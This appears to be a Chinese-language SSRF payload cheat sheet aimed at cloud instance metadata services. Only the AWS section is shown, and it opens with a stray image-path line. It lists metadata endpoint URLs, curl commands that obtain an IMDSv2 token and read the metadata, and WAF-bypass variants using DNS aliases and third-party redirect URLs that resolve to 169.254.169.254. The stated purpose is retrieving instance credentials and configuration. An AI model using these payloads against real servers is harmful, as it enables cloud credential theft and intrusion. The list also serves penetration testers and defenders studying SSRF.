 # SSRF URL 针对云实例

> 在云环境中利用服务器端请求伪造（SSRF）时，攻击者通常会针对元数据端点以检索敏感实例信息（例如凭据、配置）。以下是对各种云和基础设施提供商的常见URL进行分类的列表。

## 概要

* [AWS 存储桶的 SSRF URL](#ssrf-url-for-aws)
* [AWS ECS 的 SSRF URL](#ssrf-url-for-aws-ecs)
* [AWS Elastic Beanstalk 的 SSRF URL](#ssrf-url-for-aws-elastic-beanstalk)
* [AWS Lambda 的 SSRF URL](#ssrf-url-for-aws-lambda)
* [Google Cloud 的 SSRF URL](#ssrf-url-for-google-cloud)
* [Digital Ocean 的 SSRF URL](#ssrf-url-for-digital-ocean)
* [Packetcloud 的 SSRF URL](#ssrf-url-for-packetcloud)
* [Azure 的 SSRF URL](#ssrf-url-for-azure)
* [OpenStack/RackSpace 的 SSRF URL](#ssrf-url-for-openstackrackspace)
* [HP Helion 的 SSRF URL](#ssrf-url-for-hp-helion)
* [Oracle Cloud 的 SSRF URL](#ssrf-url-for-oracle-cloud)
* [Kubernetes ETCD 的 SSRF URL](#ssrf-url-for-kubernetes-etcd)
* [Alibaba 的 SSRF URL](#ssrf-url-for-alibaba)
* [Hetzner Cloud 的 SSRF URL](#ssrf-url-for-hetzner-cloud)
* [Docker 的 SSRF URL](#ssrf-url-for-docker)
* [Rancher 的 SSRF URL](#ssrf-url-for-rancher)
* [参考文献](#references)

## AWS 的 SSRF URL

AWS 实例元数据服务是在Amazon EC2实例内可用的服务，允许这些实例访问有关它们自己的元数据。- [文档](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

* IPv4 端点（旧版）: `http://169.254.169.254/latest/meta-data/`
* IPv4 端点（新版本）需要头信息 `X-aws-ec2-metadata-token`

  ```powershell
  export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```

* IPv6 端点: `http://[fd00:ec2::254]/latest/meta-data/`

在有WAF的情况下，你可能想尝试不同的方式来连接API。

* DNS记录指向AWS API IP

  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```

* HTTP重定向

  ```powershell
  Static:http://nicob.net/redir6a
  Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
  ```
